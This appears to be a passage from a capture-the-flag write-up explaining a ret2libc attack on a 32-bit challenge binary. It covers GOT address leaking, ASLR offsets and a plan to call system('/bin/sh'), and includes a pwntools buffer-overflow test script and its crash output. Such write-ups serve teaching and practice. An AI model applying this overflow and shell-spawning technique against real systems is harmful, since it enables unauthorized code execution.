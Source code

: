 
**GOT (Global Offset Table)** contains library function address like printf, system etc.

But the those address is only loaded when the function is been called, and the address is randomly choosen (ASLR)

But each function address offset/distance is always the same!

For example:
``` 
If printf and system offset is 50:

1st execute
printf GOT: 100
system GOT:  50

2nd execute
printf GOT: 600
system GOT: 550

3rd execute
printf GOT: 300
system GOT: 250
```
We have `system` address but we still need a `/bin/sh` string to execute shell

Luckily inside libc got this string so if we leak function address then can calculate its offset to the string address

To expliot this, our plan is:
1. **Use `puts` function to leak address from GOT table**
2. **Run `vuln` function again so can exploit again**
3. **Calculate its offset between "/bin/sh" string in library**
4. **Run `system(binsh address)`**
5. **Cat the damn flag!**

## Testing
Before we exploit the actual machine, lets test with our local machine first

I used pwntools in python:
```py
from pwn import *
elf = ELF("./quarantined")
p = elf.process()
vuln = 0x8048562
# Test with 1028 + 4 input
# p32 converts number to raw binary in reverse order (Little endian)
# For vuln address is \x62\x85\x04\x08
p.sendlineafter("1+1\n",'a'*1032+p32(vuln)) 
print(p.recv()) # Print output
```
Result:
```
EOFError
[*] Process '/root/Downloads/wgmy/quarine/quarantined' stopped with exit code -11 (SIGSEGV) (pid 66087)
```
Failed... lets try add another 4 character
